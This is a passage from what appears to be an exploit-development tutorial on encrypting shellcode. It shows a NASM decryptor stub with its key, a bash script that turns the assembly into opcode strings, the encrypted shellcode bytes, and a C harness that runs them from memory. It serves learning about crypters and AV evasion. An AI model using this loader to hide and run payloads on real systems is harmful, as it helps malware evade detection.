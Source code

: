 ```nasm
callKey:
call popKey
key:
db 0x53,0x6f,0x53,0x65,0x63,0x72,0x33,0x54,0xee
```

## Compiling the Decryptor
Here we will use a simple bash script to compile the decryptor assembly. We will then load it into a simple C program for testing.
```bash 
root# cat getshellcode.sh
#!/bin/bash
asmFile=$1
noExt=$(echo $asmFile | sed 's/\..*$//g')
objFile=$noExt".o"
nasm -f elf64 $asmFile -o $objFile
for i in $(objdump -D $objFile | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo ''

root# ./getshellcode.sh decrypt.asm
\x48\x31\xc9\x48\xf7\xe1\xeb\x21\x5f\xeb\x49\x58\x50\x5e
\x8a\x16\x28\x17\x48\xff\xc6\x48\xff\xc7\x66\xba\xaa\xbb
\x66\x39\x17\x74\x0d\xb2\xee\x38\x16\x74\xe5\xeb\xe5\xe8
\xda\xff\xff\xff\x9b\xa0\x49\xad\x5a\x58\x7b\x85\x52\xc6
\x9b\xe8\x25\xda\x85\x9c\x0d\x9e\xb5\xce\xd1\xa1\x95\xb5
\xc6\xc1\x9b\x96\x35\xba\xbc\x3b\x03\xaa\x62\x6a\xaa\xbb
\xe8\xb2\xff\xff\xff\x53\x6f\x53\x65\x63\x72\x33\x54\xee
```

## Adding the Decryptor to A Host Program
Now that we have the assembly for our encrypted payload, pre setup with the symmetric decryption key & decryptor stub, we will load it into a host C program. Since the decryptor stub writes to memory that is typically not writable, we will have to pass some magic flags to GCC at compilation.

```c
// Filename: shellcode.c
// Author:   Bobby Cooke
#include<stdio.h>
#include<string.h>

unsigned char shellcode[] = \
"\x48\x31\xc9\x48\xf7\xe1\xeb\x21\x5f\xeb\x49\x58\x50\x5e"
"\x8a\x16\x28\x17\x48\xff\xc6\x48\xff\xc7\x66\xba\xaa\xbb"
"\x66\x39\x17\x74\x0d\xb2\xee\x38\x16\x74\xe5\xeb\xe5\xe8"
"\xda\xff\xff\xff\x9b\xa0\x49\xad\x5a\x58\x7b\x85\x52\xc6"
"\x9b\xe8\x25\xda\x85\x9c\x0d\x9e\xb5\xce\xd1\xa1\x95\xb5"
"\xc6\xc1\x9b\x96\x35\xba\xbc\x3b\x03\xaa\x62\x6a\xaa\xbb"
"\xe8\xb2\xff\xff\xff\x53\x6f\x53\x65\x63\x72\x33\x54\xee";
int main()
{
        printf("Shellcode Length:  %d\n", strlen(shellcode));
        int (*ret)() = (int(*)())shellcode;
        ret();
}
```

